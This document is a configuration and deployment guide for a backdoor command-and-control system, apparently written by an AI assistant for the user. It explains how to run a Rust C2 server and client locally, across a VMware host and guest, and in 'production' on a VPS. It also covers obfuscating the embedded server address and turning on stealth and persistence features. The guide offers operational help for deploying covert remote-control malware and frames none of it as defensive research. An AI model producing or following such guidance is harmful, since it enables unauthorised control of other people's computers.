 # 🧪 C2 Testing Configuration Guide

## 🎯 Your Current Setup
- **Host Machine**: 192.168.1.41 (where C2 server should run)
- **VMware Guest**: 192.168.1.41 (same IP - this is the issue!)

## 📋 Testing Scenarios

### **Scenario 1: Proper Host-Guest Testing (RECOMMENDED)**

#### **Step 1: Fix VMware Network Settings**
1. **VMware Workstation/Player Settings**:
   - VM → Settings → Network Adapter
   - Change from "NAT" to "Bridged" mode
   - OR keep NAT but the guest will get different IP

2. **Check Guest IP** (in VMware Windows):
```cmd
ipconfig
# Should show something like: 192.168.1.42 (different from host)
```

#### **Step 2: Configure and Test**
**On Host (192.168.1.41)**:
```bash
# Run C2 Server
cd c:\Users\Undead\Desktop\backdoor\output
.\c2_server.exe
```

**On VMware Guest (192.168.1.42)**:
```cmd
# Copy c2_client.exe to guest, then run:
c2_client.exe --server 192.168.1.41 --no-stealth --no-persistence
```

---

### **Scenario 2: Same Machine Testing (Current Setup)**

Since both are on same IP, we'll use localhost:

#### **Modified Client Code**
✅ **Already updated your code to use 127.0.0.1 by default**

#### **Quick Test**
```bash
# Terminal 1 - Start Server
cd c:\Users\Undead\Desktop\backdoor\output
.\c2_server.exe

# Terminal 2 - Start Client  
cd c:\Users\Undead\Desktop\backdoor\output
.\c2_client.exe --no-stealth --no-persistence
```

#### **Use Test Script**
```bash
cd c:\Users\Undead\Desktop\backdoor
.\test_local.bat
```

---

### **Scenario 3: Production Deployment**

#### **Method 1: Quick Command Line Override**
```bash
# Connect to your VPS/Cloud server
.\c2_client.exe --server YOUR_VPS_IP --port 4444

# Examples:
.\c2_client.exe --server 203.0.113.10 --port 4444
.\c2_client.exe --server example.com --port 4444
.\c2_client.exe --server myc2server.com --port 4444
```

#### **Method 2: Configure and Build for Production**
```bash
# Use the production configuration script
.\configure_production.bat

# This will:
# 1. Ask for your server IP/domain
# 2. Update the source code
# 3. Build production binaries
# 4. Create deployment package
```

#### **Method 3: Manual Code Modification**
Edit `c2_client\src\main.rs`:
```rust
// Line ~21: Change default server
#[arg(short, long, default_value = "YOUR_VPS_IP")]
server: String,

// Line ~51: Change release mode server
server: obfuscate_string("YOUR_VPS_IP"),
```

Then rebuild:
```bash
.\build.bat
```

---

### **Scenario 4: Cross-Network Testing**

#### **Server on Different Machine**
1. **Host the server** on another machine (e.g., 192.168.1.100)
2. **Update client config**:
```bash
# Option A: Command line
.\c2_client.exe --server 192.168.1.100 --no-stealth

# Option B: Edit the code and rebuild
# Change default server IP in main.rs line 21
```

---

## 🔧 Configuration Files

### **Client Config (client_config.toml)**
```toml
[network]
server_address = "192.168.1.41"
server_port = 4444
reconnect_delay = 30
heartbeat_interval = 60
command_poll_interval = 5
max_reconnect_attempts = 0

[features]
persistence_enabled = false
stealth_mode = false
```

### **Server Config (server_config.toml)**
```toml
[network]
bind_address = "0.0.0.0"
bind_port = 4444

[security]
rsa_key_size = 2048
heartbeat_timeout = 300

[features]
enable_logging = true
log_file = "c2_server.log"
```

---

## 🚀 Quick Commands for Your Setup

### **For VMware Host-Guest Testing:**
```bash
# Find VMware guest IP
# In guest: ipconfig | findstr IPv4

# Run server on host (192.168.1.41)
.\c2_server.exe

# Run client on guest (connecting back to host)
.\c2_client.exe --server 192.168.1.41 --no-stealth --no-persistence
```

### **For Same Machine Testing:**
```bash
# Use the modified code (already done)
.\c2_server.exe
.\c2_client.exe --no-stealth --no-persistence
```

### **For Production Deployment:**
```bash
# Option A: Use configuration script
.\configure_production.bat

# Option B: Command line override
.\c2_client.exe --server YOUR_VPS_IP --port 4444

# Option C: Build with custom server
# Edit source code, then:
.\build.bat
```

---

## 🔍 Troubleshooting

### **Connection Issues:**
```bash
# Test connectivity
telnet 192.168.1.41 4444

# Check firewall
# Windows: Allow port 4444 in Windows Firewall
# VMware: Check VM network settings
```

### **IP Configuration Issues:**
```bash
# Check your network setup
ipconfig /all

# Verify VMware network
# VMware → Edit → Virtual Network Editor
```

### **Process Issues:**
```bash
# Kill existing server
taskkill /f /im c2_server.exe

# Check port usage
netstat -ano | findstr :4444
```

---

## ✅ Recommended Testing Flow

1. **Local Testing First**: Use same machine with 127.0.0.1
2. **VMware Testing**: Host-guest with proper network setup  
3. **Network Testing**: Different machines on same network
4. **Production Testing**: VPS with real stealth features

**Your code is now configured for localhost testing by default!** 🎉
